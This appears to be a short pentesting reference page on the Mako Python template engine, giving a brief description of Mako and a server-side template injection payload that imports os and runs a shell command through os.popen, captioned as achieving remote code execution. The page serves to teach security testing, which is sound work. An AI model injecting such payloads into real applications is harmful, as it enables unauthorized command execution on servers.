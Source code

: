 # Mako

[Mako](https://www.makotemplates.org/) is a Python template library that compiles into Python modules for high performance. It uses a non-XML syntax inspired by Django, Jinja2, Cheetah, and others. Mako functions as an embedded Python language, offering a simple, flexible model with strong support for Python's calling and scoping semantics.

## SSTI

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

<figure><img src="../../../.gitbook/assets/glau_ssti_id.png" alt=""><figcaption><p>Figure 1: Achieving RCE through a SSTI flaw on a Mako templating engine.</p></figcaption></figure>

